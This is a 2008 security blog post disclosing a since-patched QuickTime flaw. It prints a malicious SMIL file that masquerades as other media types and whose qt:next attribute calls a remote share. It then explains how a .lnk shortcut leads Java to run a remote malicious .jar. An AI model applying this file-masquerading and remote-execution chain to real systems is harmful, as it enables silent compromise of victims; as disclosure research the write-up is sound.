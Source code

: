 ```yaml
---
title: Details of the QuickTime Vulnerability
author: petko-d-petkov
date: Tue, 09 Sep 2008 14:24:38 GMT
template: this/views/post.jade
---
```


In this post I intend to give a brief overview of the QuickTime vulnerability which I partially-disclosed over [here](/blog/quicktime-0day-for-vista-and-xp/). I should have made these details public long time ago but better late than never. The vulnerability has been fixed for several months now and I believe it is safe to talk about it in the public.

Let's start with an example. The following is the source code of a malicious QuickTime SMIL file:

```xml
**SMILtext** <smil
xmlns:qt="http://www.apple.com/quicktime/resourc
es/smilextensions" qt:autoplay="true"
qt:next="**file://172.16.3.124/evil/evil.lnk**">
<body>
<seq repeatCount="indefinite">
<img src="test.jpg" dur="1s"/>
<img src="test.jpg" dur="1s"/>
</seq>
</body>
</smil>
```

First of all, we start with the SMIL header (`SMILtext`). This is necessary in order to masquerade the file as a different file type, i.e. if we paste the above text into a file with extension `.mp3`, it will still play in QuickTime. We can use practically any other file extension which defaults to the QuickTime player.

After that we follow with a very standard SMIL document. The most interesting information in order to make the exploit works is contained inside the `qt:next` attribute of the `smil` root element. This attribute instructs QuickTime to play another media file after we are done with the current one. The attribute expects a URL which can start with the `file://` protocol handler. This is understandable since we might want to play local files as well as remote ones, i.e. `http://`.

The URL is passed to the `FileProtocolHandler` from `url.dll`. The function understands that we are asking for a local resource. However, pay attention on the format of the URL we are passing. Let's take a closer look: `file://172.16.3.124/evil/evil.lnk`

Most of you will recognize that this is a URL which points to a NETBIOS share located on `172.16.3.124`.

Perhaps you are thinking that this is the problem. Well yes, but we are not there just yet. Initially, when I was playing with this bug, I was trying to launch a URL like this one: `file://172.16.3.124/evil/evil.exe`. The URL points to an executable. Unfortunately, the attack was failing because usually XP SP1 and up, I believe (excuse my ignorance), will warn you that you are trying to execute an application from an untrusted share. Typically, you will see a warning box but because `FileProtocolHandler` suppresses that, the function silently fails. I've tried with `.bat`, `.cmd`, `.vbs`, `.js`, `.application` and other known executable file formats but none of them seemed to work. This is due to the fact that the operating system knows that these files are executables and could harm your system, therefore it prevents their execution.

So I needed to find a file format which is executable but Windows does not know about it just yet. It seems that `.jar` fits perfectly my requirements. `.jar` is the file extension of the JAR archive, a ZIP archive with a manifest file which instructs the Java interpreter what class should be executed as the main one. `.jar` files are executable as long as you have Java on your system.

So we are done! Right? Not quite. If you try to send `file://172.16.3.124/evil/evil.jar` to `FileProtocolHandler` you will notice that `java.exe` fails with an error messages informing you that there is no such class. What happens is that Java does not understand what `file://172.16.3.124/evil/evil.jar` actually is. This is due to the fact that the URL notation we are using is non-standard, i.e. it is made up by Microsoft's engineers to seamlessly incorporate NETBIOS shares into the operating system.

So what do we do? It took me some time to figure this out. My approach is very simple. First of all we create a simple `.lnk` (link/shortcut) file in the same directory where the malicious `.jar` file is located. Then we use the shortcut to rewrite the URL from `file://172.16.3.124/evil/evil.jar` to `\\172.16.3.124\evil\evil.jar`, which is the correct NETBIOS notation. The Java interpreter is very much aware of this syntax and it will happily load the file and attack the victim's system.

> In summary, I had to go from QuickTime to Windows Internals to URL Manipulation to Java. However, the attack is very simple to implement and understand, yet very effective. I must say that you can definitely win a laptop on the annual POWN2OWN contest by using as simple trick as the one presented here. Security vulnerabilities do not have to be complicated!

_I am planning to talk about the impact of this attack in my next post._
